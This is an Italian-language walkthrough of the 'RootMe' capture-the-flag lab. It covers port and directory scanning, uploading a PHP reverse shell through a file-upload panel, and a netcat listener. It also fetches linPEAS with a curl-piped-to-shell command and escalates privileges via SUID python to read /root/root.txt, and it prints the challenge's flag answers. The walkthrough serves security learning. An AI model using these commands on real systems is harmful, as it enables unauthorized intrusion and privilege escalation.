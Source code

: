 # RootMe

RootMe è un Capture The Flag (CTF) di livello facile, progettato per sviluppare competenze avanzate di penetration testing e escalation dei privilegi. Iniziamo il nostro viaggio accedendo alla macchina bersaglio tramite la nostra Kali Linux e avviando una scansione Nmap per esplorare le porte e i servizi disponibili.

```sh
└─$ sudo nmap -p- -sS -A 10.10.152.152
```
![Alt text](img/image.png)

I risultati della scansione rivelano due porte aperte: la porta 22 per SSH e la porta 80 per HTTP. Queste informazioni ci permettono di rispondere a tre domande fondamentali:

$${\color{red}Scan \space the \space machine, \space how \space many \space ports \space are \space open?
} \space {\color{green}2}$$

$${\color{red}What \space version \space of \space Apache \space is \space running?
} \space {\color{green}2.4.29}$$

$${\color{red}What \space service \space is \space running \space on \space port \space 22?
} \space {\color{green}SSH}$$

Dopo la scansione, ci dirigiamo verso il servizio HTTP sulla porta 80. Nonostante un'animazione accattivante, decidiamo di utilizzare goBuster per individuare eventuali directory nascoste.

![Alt text](img/image-1.png)

```sh
└─$ gobuster dir -u "http://10.10.152.152:80" -w /usr/share/wordlists/dirb/common.txt
```
![Alt text](img/image-2.png)

All'interno della directory "/panel/", scopriamo un'area dedicata al caricamento di file, indicando la possibilità di un potenziale exploit. Sfruttando l'ambiente Apache, carichiamo una reverse shell in PHP dopo averla personalizzata con il nostro indirizzo IP e la porta. Successivamente, mettiamo in ascolto con Netcat prima di interagire con la nostra reverse shell attraverso la directory "/uploads/".

$${\color{red}What \space is \space the \space hidden \space directory?
} \space {\color{green}/panel/}$$

[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php]

![Panel](img/image-3.png)

![Uploads](img/image-4.png)

```sh
└─$ nc -lnvp 4444
```
Una volta ottenuto l'accesso al sistema, procediamo alla ricerca del file "user.txt".
![Alt text](img/image-5.png)

```sh
└─$ find / -name user.txt 2>/dev/null
```
![Alt text](img/image-6.png)

$${\color{red}user.txt
} \space {\color{green}THM\\{y0u\\_g0t\\_a\\_sh3ll\\}}$$

Rispondiamo alla prima domanda del Task 4, eseguendo una ricerca dei file con permessi SUID.

```sh
└─$ find / -user root -perm /4000
```
Identificando il file "weird" nella directory "/usr/bin/python", approfondiamo ulteriormente l'analisi. Scarichiamo linPEAS sulla nostra macchina e lo trasferiamo al sistema bersaglio attraverso un server web Python temporaneo e in fine lo eseguiremo.

![Alt text](img/image-8.png)

$${\color{red}Search \space for \space files \space with \space SUID \space permission, \space which \space file \space is \space weird?
} \space {\color{green}/usr/bin/python}$$

Ora per prendere l'ultima flag devo scalare i privilegi e per farlo mi aiuto con linPEAS.<br>
quindi lo scarico sulla mia macchina da qui
https://github.com/carlospolop/PEASS-ng/releases/tag/20231231-3221ac1a

```sh
└─$ sudo python -m http.server 8000
└─$ curl 10.14.65.216/linpeas.sh | sh
```

L'output di linPEAS evidenzia numerosi riferimenti a "python", aprendo la possibilità di utilizzarlo per leggere il contenuto del file "root.txt" nella directory "/root/".

```sh
└─$ python -c 'print(open("/root/root.txt").read())' 
```
Rispondendo all'ultima domanda del CTF, otteniamo il flag di root:

![Alt text](img/image-7.png)

$${\color{red}root.txt
} \space {\color{green}THM\{pr1v1l3g3_3sc4l4t10n\}}$$


